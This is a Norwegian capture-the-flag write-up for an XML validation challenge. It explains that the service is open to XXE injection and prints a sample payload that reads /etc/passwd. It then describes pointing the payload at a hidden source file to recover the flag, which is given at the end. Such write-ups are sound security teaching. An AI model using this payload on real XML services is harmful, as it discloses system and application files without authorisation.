



# Validering

Vi har lagd en XML-valideringstjeneste.

[🔗 https://skatt-validator.chals.io/](https://skatt-validator.chals.io/)

# Writeup

Siden er sårbar for [XML eXternal Entity angrep](https://portswigger.net/web-security/xxe) (XXE).

Vi kan ta en eksempel-payload fra Portswigger:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```


For å finne flagget kommer det et hint hvis XML-validering feiler:


Her ser vi at kildekoden ligger i en fil med et merkelig navn: `/app/appl1cati0n.py`.

Modifiserer passwd-xml til å hente denne filen:


# Flag

```
skatt{XML_kan_kn4kke_d3n_sterk3ste_rygg}
```